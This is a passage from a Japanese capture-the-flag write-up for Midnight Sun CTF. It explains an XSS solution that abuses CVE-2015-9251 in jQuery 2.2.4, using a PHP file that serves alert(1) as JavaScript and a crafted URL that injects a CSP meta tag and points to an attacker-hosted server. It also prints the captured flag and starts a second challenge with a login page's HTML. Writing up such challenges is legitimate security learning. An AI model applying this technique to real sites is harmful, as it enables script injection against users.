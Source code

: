 ```html
}

</script>
```

さて、`alert(1)` を実行させればフラグが得られますが、`$.get` だけでどうやって `alert` を呼び出せばよいのでしょう。`$.get` は jQuery で定義されている関数ですが、読み込まれている jQuery のバージョンを見ると、どうやら 2.2.4 と [2016 年にリリース](https://blog.jquery.com/2016/05/20/jquery-1-12-4-and-2-2-4-released/)された大変古いものを利用していることがわかります。このバージョンの jQuery に脆弱性がないか `jquery 2.2.4 vulnerabilities` でググってみると、[CVE-2015-9251](https://nvd.nist.gov/vuln/detail/CVE-2015-9251) という Ajax 周りのそれっぽい脆弱性が見つかりました。

これは `dataType` を指定せずにクロスドメインの Ajax リクエストを送った場合、返ってきたレスポンスの `Content-Type` が `text/javascript` であればその内容を実行してしまうという脆弱性のようです。やってみましょう。

以下のような PHP スクリプトを `neko.php` というファイル名で書き込みます。

```php
<?php
header('Access-Control-Allow-Origin: *');
header('Content-Type: text/javascript');
?>
alert(1);
```

適当なサーバでホストし、`/marcololo?input=script-src%20%27sha256-bYN4krH0C61TIckMTVqjkOb3aCxs8G8sezFnSlL9G4E=%27%20%27unsafe-eval%27%20https://code.jquery.com"%20id="user"%20name="admin"%20http-equiv="Content-Security-Policy#http://(攻撃者のサーバ)/neko.php` にアクセスすると `alert(1)` を実行することができました。この URL を管理者に投げるとフラグが得られました。

```
midnight{@lw4yz_cl0b_b3f0re_34t1ng_c0rn_0n_th3_c0b}
```

## [Web 1003] icanhazfile (6 solves)
> I forgot my login to this health care system. The swedish cough is the worst...  
> Service: http://icanhazfile-01.play.midnightsunctf.se:3002/

与えられた URL にアクセスすると、`/login` に遷移し以下のようなログインフォームが表示されました。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <title>AUTHENTICATE</title>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link href="https://fonts.googleapis.com/css?family=VT323&display=swap" rel="stylesheet">
      <link rel="stylesheet" href="/img/style.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
    <div class="main-content elegant-color-dark">
          <form method="POST" action="/login">
          <div class="input-group" style="width: 100% !important; font-size: 130%; /*css aint nobody got time fo dat*/">
            <input id="user" type="text" class="form-control text-center" autocomplete="off" name="username" placeholder="USERNAME">
          </div>
          <div class="input-group" style="width: 100% !important; font-size: 130%; /*css aint nobody got time fo dat*/">
```